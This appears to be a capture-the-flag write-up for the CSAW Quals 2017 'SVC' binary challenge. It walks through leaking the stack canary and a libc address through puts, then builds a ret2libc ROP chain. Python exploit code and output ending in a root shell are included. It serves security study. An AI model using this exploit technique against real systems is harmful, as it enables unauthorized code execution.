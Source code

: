 # CSAW Quals 2017

Looking over ```checksec```:

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

In this challenge we are given a ```libc``` file. Sounds like some return oriented programming!

Running the binary and decompiling it we can see that there are 3 options:
- ```FEED SVC```, which takes our input
- ```REVIEW THE FOOD```, which outputs to the screen our input with a call to ```puts()```
- ```MINE MINERALS```, which exits the program

We can make a good guess and say that we will have to have an information leak in our program. We also notice that there is a ```canary``` on the stack. We will overflow just enough so that when we select ```REVIEW THE FOOD``` it will leak it for us.

Since this is a 64bit binary, our ```canary``` will also be 64 bits - 8 bytes. We know that the lowest byte in memory of it will be a NULL byte, as to stop string functions like ```puts()```, therefore we will have to overflow it as well in order to leak the other 7 bytes.

Finally, we need a libc address leak. Since the only way we can leak stuff is with ```puts()```, we will have to change the argument that is loaded in ```rdi``` to a pointer to a libc address. We can use a GOT address for this. With these in mind, we will construct a small ```ropchain``` that will overwrite ```ret```:

```python
	r.sendline("1")
	r.send("A" * 168 + canary + "B" * 8 + p64(pop_rdi) + p64(exe.got['puts']) + p64(exe.symbols['puts']) + p64(function_addr))
	r.sendline("3")
```

```function_addr``` is the address to the start of the "main" function. After we leak it we go back into the program and use our freshly leaked bytes to construct a ret2libc attack.

```python
    libc.address = leak - libc.symbols['puts']
    system = libc.symbols['system']
    binsh = next(libc.search('/bin/sh\x00'))

    r.sendline("1")
    r.send("A" * 168 + canary + "B" * 8 + p64(pop_rdi) + p64(binsh) + p64(system))
    r.sendline("3")
```

```bash
[root@pwn:~/csawquals17_svc]$ python solve.py LOCAL
[+] Starting local process '/root/code/CTF-Writeups/csawquals17_svc/ld-2.23.so': pid 2051
[*] canary: 004b88fc629067e7
[*] leak: 0x7f5772d8b690
[*] Switching to interactive mode

-------------------------
[*]SCV GOOD TO GO,SIR....
-------------------------
1.FEED SCV....
2.REVIEW THE FOOD....
3.MINE MINERALS....
-------------------------
>>-------------------------
[*]SCV IS ALWAYS HUNGRY.....
-------------------------
[*]GIVE HIM SOME FOOD.......
-------------------------
>>-------------------------
[*]SCV GOOD TO GO,SIR....
-------------------------
1.FEED SCV....
2.REVIEW THE FOOD....
3.MINE MINERALS....
-------------------------
>>[*]BYE ~ TIME TO MINE MIENRALS...
$ whoami
root
```